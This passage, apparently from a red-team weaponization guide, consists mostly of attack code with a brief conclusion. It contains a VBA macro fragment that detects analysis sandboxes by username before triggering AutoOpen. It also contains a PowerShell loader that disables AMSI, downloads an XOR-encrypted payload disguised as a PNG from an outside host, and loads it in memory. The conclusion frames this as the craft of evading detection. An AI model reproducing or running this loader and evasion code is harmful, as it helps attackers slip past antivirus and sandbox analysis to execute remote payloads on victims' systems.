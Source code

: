 ```vba
    If IsSandbox() Then
        Exit Sub
    Else
        AutoOpen
    End If
End Sub

Function IsSandbox() As Boolean
    ' Simple sandbox detection
    Dim username As String
    username = Environ("username")
    If username = "sandbox" Or username = "admin" Or username = "maltest" Then
        IsSandbox = True
    Else
        IsSandbox = False
    End If
End Function
```

### Example: PowerShell Reflective Loader

```powershell
# Obfuscated and staged PowerShell loader
$a = 'System.Reflection.Assembly'
$b = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$c = $b.GetField('amsiInitFailed','NonPublic,Static')
$c.SetValue($null,$true)

$wc = New-Object System.Net.WebClient
$wc.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36")
$wc.Proxy = [System.Net.WebRequest]::DefaultWebProxy
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# Stage 1: Download encrypted payload
$key = [byte[]] (34,65,92,12,45,87,26,72)
$enc = $wc.DownloadData("https://legitimate-cdn.com/resource.png")

# Stage 2: Decrypt and execute
$dec = @()
for($i=0; $i -lt $enc.length; $i++) {
    $dec += $enc[$i] -bxor $key[$i % $key.length]
}

# Execute in memory
[System.Reflection.Assembly]::Load($dec)
[Payload.Exec]::Run()
```

## Conclusion

Weaponization is both an art and science in red team operations. Effective weaponization requires continuous adaptation to evolving defensive technologies, creative problem-solving, and strict operational security. The most successful red team arsenals combine custom-developed tools with carefully modified existing frameworks to achieve specific operational objectives while minimizing detection.


